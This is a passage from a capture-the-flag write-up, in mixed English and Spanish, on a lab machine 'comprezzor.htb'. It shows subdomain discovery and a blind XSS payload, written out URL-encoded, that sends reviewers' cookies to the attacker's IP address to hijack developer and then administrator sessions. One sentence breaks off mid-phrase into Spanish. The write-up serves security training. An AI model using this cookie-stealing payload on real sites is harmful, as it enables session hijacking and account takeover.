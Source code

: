 ```bash
Found: report.comprezzor.htb Status: 200 [Size: 3166]
===============================================================
Finished
===============================================================
```

- Upon accessing the domain `comprezzor.htb`, we encounter a website that provides file compression service. Additionally , it is mentioned that if a inconvenience with the service arrise, it is posible to send a report through the vhost `report.comprezzor.htb`

![[Pasted image 20240505163054.png]]

- Within `report.comprezzor.htb` we can understand the flow of the report management. Understanding that initially, reported bugsEntendiendo que primero los reported bug is reviewed by developers, but si un bug requires further attention, it will be escalated to out administrators for resolution.

![[Pasted image 20240505163639.png]]

- Para poder enviar un reporte es necesario crearse una cuenta en `auth.comprezzor.htb`, una vez hecho ello podemos enviar nuestro reporte. Dado que los reportes serán revisados en primera instancia por los developers y además las cookies no tiene security attributes establecidos, intentaremos explotar un `Blind XSS` para obtener su cookie.

![[Pasted image 20240505164516.png]]

```post-parameters
report_title=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.162%2Findex%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E&description=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.162%2Findex%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E
```

- Para ello levantaremos un servicio HTTP en el puerto 80 con python y después logramos recuperar la cookie del `developer` que revisó nuestro reporte.

![[Pasted image 20240505165018.png]]
![[Pasted image 20240505165223.png]]

- Como usuario normales no podíamos acceder a `dashboard.comprezzor.htb`, pero ahora que tenemos la cookie del `webdev` user podemos acceder y ver los reportes que aún tiene por revisar.

![[Pasted image 20240505165404.png]]

![[Pasted image 20240505165636.png]]


- Luego de revisar las funcionalidades presente en el dashboard de `webdev`, notamos que podemos set High Priority , presumiblemente para que el reporte sea revisado por el administrador, de  ser ese el caso es probable que podamos secuestrar la cookie del user administrator nuevamente debido a un `Blind XSS`

![[Pasted image 20240505170035.png]]

- Volveremos a enviar un reporte con el mismo payload y esta vez estableceremos High Priority para que pueda ser revisado por el administrador
![[Pasted image 20240505170506.png]]
![[Pasted image 20240505170523.png]]
